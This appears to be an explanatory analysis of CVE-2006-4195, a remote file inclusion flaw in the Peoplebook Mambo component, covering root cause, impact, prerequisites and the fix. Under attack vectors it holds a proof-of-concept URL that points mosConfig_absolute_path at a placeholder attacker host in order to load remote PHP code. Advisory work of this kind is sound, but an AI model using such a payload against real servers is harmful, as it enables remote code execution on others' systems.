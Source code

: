 Based on the provided content, here's a breakdown of the vulnerability associated with CVE-2006-4195:

**Root Cause of Vulnerability:**

*   The vulnerability lies in the `param.peoplebook.php` file of the Peoplebook Mambo Component version 1.0.
*   The script uses the `$mosConfig_absolute_path` variable to construct file paths for inclusion.
*   The script does not sanitize this variable before using it in `require_once`, making it susceptible to file inclusion attacks.

**Weaknesses/Vulnerabilities Present:**

*   **Remote File Inclusion (RFI):** The primary vulnerability is the ability to include remote files by manipulating the `$mosConfig_absolute_path` variable.

**Impact of Exploitation:**

*   **System Access:** Successful exploitation can lead to system access on the target server.
*   **Code Execution:** By including a malicious PHP file from a remote server, an attacker can execute arbitrary code on the vulnerable system.

**Attack Vectors:**

*   **HTTP Request:** The attacker sends an HTTP GET request to `param.peoplebook.php` with a modified `mosConfig_absolute_path` parameter that points to a malicious PHP file on a remote server.
*   **Vulnerable URL:** `http://[target]/[path]/administrator/components/com_peoplebook/param.peoplebook.php?mosConfig_absolute_path= http://attacker.com/evil.txt?`

**Required Attacker Capabilities/Position:**

*   **Remote Position:** The attacker can exploit this vulnerability remotely, with no prior access required to the system.
*   **`register_globals` ON and `allow_fopenurl` ON:**  The vulnerability is exploitable if the PHP settings `register_globals` and `allow_fopenurl` are enabled on the target server.

**Additional Details:**

*   The exploit-db entry provides a detailed description of the vulnerable code snippet from `param.peoplebook.php`.
*   It also includes a proof of concept URL demonstrating how to trigger the vulnerability.
*   The entry also suggests a solution, which is to sanitize the `$mosConfig_absolute_path` variable in `param.peoplebook.php` before using it in `require_once`.

The content provides more detailed information than the official CVE description, including specific code examples, a proof of concept, and suggested mitigation.